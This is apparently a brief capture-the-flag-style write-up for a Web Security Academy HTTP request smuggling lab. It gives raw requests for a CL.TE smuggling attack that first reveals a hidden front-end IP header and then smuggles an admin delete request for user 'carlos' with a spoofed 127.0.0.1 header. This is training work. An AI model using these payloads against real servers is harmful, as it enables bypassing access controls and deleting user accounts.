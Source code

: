 search=PHONE

---

POST / HTTP/1.1
Host: acd11f5b1f0e833cc0e4960b00fe00b2.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 125
tRANSFER-ENCODING: chunked

0

POST / HTTP/1.1
Content-Length: 200
Content-Type: application/x-www-form-urlencoded
Connection: close

search=PHONE

---

RESPONSE:

    </header>
    <header class="notification-header">
    </header>
    <section class=blog-header>
    <h1>0 search results for 'PHONEPOST / HTTP/1.1
X-lFuLwp-Ip: 173.94.163.116
Host: acd11f5b1f0e833cc0e4960b00fe00b2.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 125
tRANSFE'</h1>
                        <hr>
                    </section>         


 _The Header I needed:
 #### X-lFuLwp-Ip:

then added it to the smuggled request with 127.0.0.1
sent this through repeater a few times

---

POST / HTTP/1.1
Host: acd11f5b1f0e833cc0e4960b00fe00b2.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 75
tRANSFER-ENCODING: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
`X-lFuLwp-Ip: 127.0.0.1

---
